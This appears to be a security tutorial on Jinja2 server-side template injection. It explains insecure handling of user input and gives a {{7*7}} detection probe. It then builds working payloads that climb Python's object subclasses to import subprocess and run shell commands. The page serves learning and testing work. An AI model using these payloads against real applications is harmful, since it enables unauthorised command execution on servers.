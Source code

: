Jinja2 is a popular template engine for Python, renowned for its flexibility and performance. It is extensively used in web applications to render dynamic content, as it allows Python-like expressions to be embedded within HTML. While Jinja2 accelerates development and facilitates the separation of presentation from business logic, its powerful templating capabilities can also introduce significant security risks if not handled properly.

Since Jinja2 allows the execution of Python expressions within the templates, the security risk in Jinja2 often arises from insecure coding practices that allow user input to be executed within templates without proper sanitization. The vulnerability is not inherent in Jinja2 itself but rather in how developers handle user inputs in their templates. Properly sanitizing and validating all user inputs before incorporating them into templates is essential to prevent such security issues.

**Key Vulnerability Points:**
- **Expression Evaluation**: Jinja2 evaluates expressions within curly braces `{{ }}`, which can execute arbitrary Python code if crafted maliciously.
- **Template Inheritance and Imports**: Advanced features like template inheritance and macro imports can be misused to execute unintended code, leading to information disclosure or server manipulation.

## Exploitation
Inject a basic Jinja2 syntax like `{{7*7}}` to check for template processing. If the application returns 49, it indicates that Jinja2 is processing the template.
	![](Pasted%20image%2020250107021009.png)
Once Jinja2's use is confirmed, we can the use the payload:
```python
{{"".__class__.__mro__[1].__subclasses__()[157].__repr__.__globals__.get("__builtins__").get("__import__")("subprocess").check_output("ls")}}
```

- `"".__class__.__mro__[1]` accesses the base `object` class, the superclass of all Python classes.
- `__subclasses__()`: Lists all subclasses of `object`, and `[157]` is typically the index for the `subprocess.Popen` class (this index may vary and should be checked in the target environment).
	![](Pasted%20image%2020250107021243.png)
	![](Pasted%20image%2020250107021250.png)
- The subsequent method chains dynamically import and use the `subprocess` module to execute the `ls` command, capturing its output. 
	![](Pasted%20image%2020250107021350.png)

### Why check_output('ls -lah') Does Not Work
When you use `check_output('ls -lah')`, you're passing the entire command and its arguments as a single string. This is not the recommended way to use `check_output` because it does not parse the string into a command and separate arguments. Instead, it treats the whole string as a single command to execute, which it cannot resolve as a valid executable and thus fails to run.

This method of passing arguments can potentially lead to shell injection vulnerabilities if user-controlled strings are concatenated directly into the command string. By requiring commands and their arguments to be passed as a list, `check_output` minimizes this risk.

### check_output Usage
The `check_output` function is designed to enhance security by separating the command from its arguments, which helps to prevent shell injection attacks. Here's the general syntax:

```python
subprocess.check_output([command, arg1, arg2])
```

- **command**: A string that specifies the command to execute.
- **arg1, arg2, ...**: Additional arguments that should be passed to the command.

### Correct Usage of check_output
To properly execute the `ls` command with options using `check_output`, you should pass the command and its arguments as separate elements in a list:

```python
subprocess.check_output(['ls', '-lah'])
```

The list **['ls', '-lah']** contains the command `ls` and its argument `-lah`. The command is clearly separated from its arguments, which ensures that each part is correctly handled as intended. So the final payload will then be:

```python
{{"".__class__.__mro__[1].__subclasses__()[157].__repr__.__globals__.get("__builtins__").get("__import__")("subprocess").check_output(['ls', '-lah'])}}
```

![](Pasted%20image%2020250107021719.png)